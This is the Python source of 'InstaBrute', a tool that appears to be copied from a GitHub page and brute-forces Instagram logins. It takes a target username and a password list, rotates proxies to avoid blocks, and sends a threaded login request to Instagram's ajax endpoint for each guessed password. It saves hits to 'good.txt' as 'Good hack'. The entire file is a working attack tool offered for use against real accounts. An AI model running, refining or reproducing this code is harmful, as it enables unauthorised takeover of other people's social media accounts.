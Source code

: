
from __future__ import absolute_import
from __future__ import print_function
import requests, sys, threading, time, os, random
import json
from colorama import Fore
CheckVersion = str(sys.version)
import re
from datetime import datetime

normal_color = "\33[00m"
info_color = "\033[1;33m"
red_color = "\033[1;31m"
green_color = "\033[1;32m"
whiteB_color = "\033[1;37m"
detect_color = "\033[1;34m"
banner_color="\033[1;33;40m"
end_banner_color="\33[00m"
onlyPasswords = False



print('''
                               ....
                                    %
                                     ^
                            L
                            "F3  $r
                           $$$$.e$"  .
                           "$$$$$"   "
     (insTof by 6)           $$$$c  /
        .                   $$$$$$$P
       ."c                      $$$
      .$c3b                  ..J$$$$$e
      4$$$$             .$$$$$$$$$$$$$$c
       $$$$b           .$$$$$$$$$$$$$$$$r
          $$$.        .$$$$$$$$$$$$$$$$$$
           $$$c      .$$$$$$$  "$$$$$$$$$r
Author   : Falah
snapchat : flaah999
depend on vpn. Please use it before running the tool or providing a proxy file           """"""""""""""""""""""""""""""""""""""""""
''')


class InstaBrute(object):
    def __init__(self):

        try:
            user = input('username : ')
            Combo = input('passList : ')
            self.CurrentProxy = ''
            self.UsedProxys = []
            UsePorxy = input('[*] Do you want to use proxy (y/n): ').upper()
            if (UsePorxy == 'Y' or UsePorxy == 'YES'):
                self.randomProxy()

            print('\n----------------------------')

        except:
            print(' The tool was arrested exit ')
            sys.exit()

        with open(Combo, 'r') as x:
            Combolist = x.read().splitlines()
        thread = []
        self.Coutprox = 0
        for combo in Combolist:
            password = combo.split(':')[0]
            t = threading.Thread(target=self.New_Br, args=(user, password))
            t.start()
            thread.append(t)
            time.sleep(0.9)
        for j in thread:
            j.join()

    def randomProxy(self):
        plist = open('proxy.txt').read().splitlines()
        proxy = random.choice(plist)

        if not proxy in self.UsedProxys:
            self.CurrentProxy = proxy
            self.UsedProxys.append(proxy)
        while 1:
            try:
                print('')
                print('[*] Check new ip...')
                response = requests.get('https://api.ipify.org/?format=raw', proxies={"http": proxy, "https": proxy},
                                        timeout=10.0).text
                if re.match(r'((?:\d{1,3}\.){3}\d{1,3})', response) != None:
                    print(whiteB_color + '[*] Your public ip: %s' % response)
                    print('')
                    break
                else:
                    continue
                # if response.rtrim().ltrim() == "HTTP/1.1 400 Bad Request":
                #     raise Exception("Can not reach proxy")
                # else:
                #     break
            except Exception as e:
                print('[*] Can\'t reach proxy "%s"' % proxy)
                proxy = random.choice(plist)
            print('')

    def cls(self):
        linux = 'clear'
        windows = 'cls'
        os.system([linux, windows][os.name == 'nt'])

    def New_Br(self, user, pwd):
        link = 'https://www.instagram.com/accounts/login/'
        login_url = 'https://www.instagram.com/accounts/login/ajax/'

        time = int(datetime.now().timestamp())

        payload = {
            'username': user,
            'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:{time}:{pwd}',
            'queryParams': {},
            'optIntoOneTap': 'false'
        }

        with requests.Session() as s:
            r = s.get(link)
            r = s.post(login_url, data=payload, headers={
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36",
                "X-Requested-With": "XMLHttpRequest",
                "Referer": "https://www.instagram.com/accounts/login/",
                "x-csrftoken": 'ZxKmz4hXp6XKmTPg9lzgYxXN4sFr2pzo'
            })

            
            data = json.loads(r.text)
            if (data['status'] == 'fail'):
                print(red_color +'')
                print(data['message'])
                print('--> not proxy تحتاج بروكسي')
                UsePorxy = self.randomProxy()
            print('----------------------------')
            print (green_color + 'username: '+ user + ' | '' password: '+ pwd )
            print('----------------------------')
            if 'checkpoint_url' in r.text:
                print(('' + user + ':' + pwd + ' --> Good hack '))
                with open('good.txt', 'a') as x:
                    x.write(user + ':' + pwd + '\n')
            if 'checkpoint_required' in r.text:
                print(('' + user + ':' + pwd + ' --> Good hack '))
                with open('good.txt', 'a') as x:
                    x.write(user + ':' + pwd + '\n')
            elif 'two_factor_required' in r.text:
                print(('' + user + ':' + pwd + ' -->  Good It has to be checked '))
                with open('results_NeedVerfiy.txt', 'a') as x:
                    x.write(user + ':' + pwd + '\n')



InstaBrute()
© 2021 GitHub, Inc.
